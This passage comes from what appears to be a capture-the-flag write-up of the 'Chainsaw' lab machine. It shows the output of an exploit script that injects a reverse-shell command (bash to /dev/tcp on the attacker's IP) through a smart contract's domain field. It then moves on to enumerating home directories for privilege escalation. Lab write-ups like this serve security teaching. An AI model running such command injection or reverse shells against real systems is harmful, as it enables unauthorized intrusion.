     time.sleep(.5)
    
    try:
        nc.poll()
        nc.wait()
    except:
        sys.stdout.write("\r")
    
    print(f"[+] Set domain value back to {contract.functions.getDomain().call()}")
    
    
    
    root@kali# ./chainsaw_shell.py 
    [+] Got address over FTP: 0x8Dfbf1e0cFdB8747bedd6c3754674bbedd24A05C.
    [+] Got abi over FTP: [{'constant': True, 'inputs': [], 'name': 'getDomain', 'outputs': [{'name': '', 'type': 'string'}], 'payable': False, 'stateMutability': 'view', 'type': 'function'}, {'constant': False, 'inputs': [{'name': '_value', 'type': 'string'}], 'name': 'setDomain', 'outputs': [], 'payable': False, 'stateMutability': 'nonpayable', 'type': 'function'}]
    [+] Connected to web3 provider: http://10.10.10.142:9810
    [*] Starting listener on port 443
    [*] Current domain value is: google.com
    [+] Domain value now: google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'
    [*] Sleeping to allow connection
    bash: cannot set terminal process group (1527): Inappropriate ioctl for device
    bash: no job control in this shell
    administrator@chainsaw:/opt/WeaponizedPing$ id
    uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)
    

## Priv: administrator –> bobby

### Enumeration

#### Home Directories

In the homedir, there’s no `user.txt`. There is one other user on Chainsaw,
bobby, but I don’t have access to that home folder at all:

    
    
    administrator@chainsaw:/opt/WeaponizedPing$ ls -l /home
    total 8
    drwxr-x--- 8 administrator administrator 4096 Dec 20  2018 administrator
    drwxr-x--- 9 bobby         bobby         4096 Jan 23  2019 bobby
    

Still, there are a couple interesting things in administrator’s home folder:

    
    
    administrator@chainsaw:/home/administrator$ ls -la
    total 104
    drwxr-x--- 8 administrator administrator  4096 Dec 20  2018 .
    drwxr-xr-x 4 root          root           4096 Dec 12  2018 ..
    lrwxrwxrwx 1 administrator administrator     9 Dec 12  2018 .bash_history -> /dev/null
    -rw-r----- 1 administrator administrator   220 Dec 12  2018 .bash_logout
    -rw-r----- 1 administrator administrator  3771 Dec 12  2018 .bashrc
    -rw-r----- 1 administrator administrator   220 Dec 20  2018 chainsaw-emp.csv
    drwxrwxr-x 5 administrator administrator  4096 Jan 23 09:27 .ipfs
    drwxr-x--- 3 administrator administrator  4096 Dec 12  2018 .local
    drwxr-x--- 3 administrator administrator  4096 Dec 13  2018 maintain
    drwxr-x--- 2 administrator administrator  4096 Dec 12  2018 .ngrok2
    -rw-r----- 1 administrator administrator   807 Dec 12  2018 .profile
    drwxr-x--- 2 administrator administrator  4096 Dec 12  2018 .ssh
    drwxr-x--- 2 administrator administrator  4096 Dec 12  2018 .swt
    -rw-r----- 1 administrator administrator  1739 Dec 12  2018 .tmux.conf
    -rw-r----- 1 administrator administrator 45152 Dec 12  2018 .zcompdump
    lrwxrwxrwx 1 administrator administrator     9 Dec 12  2018 .zsh_history -> /dev/null
    -rw-r----- 1 administrator administrator  1295 Dec 12  2018 .zshrc
    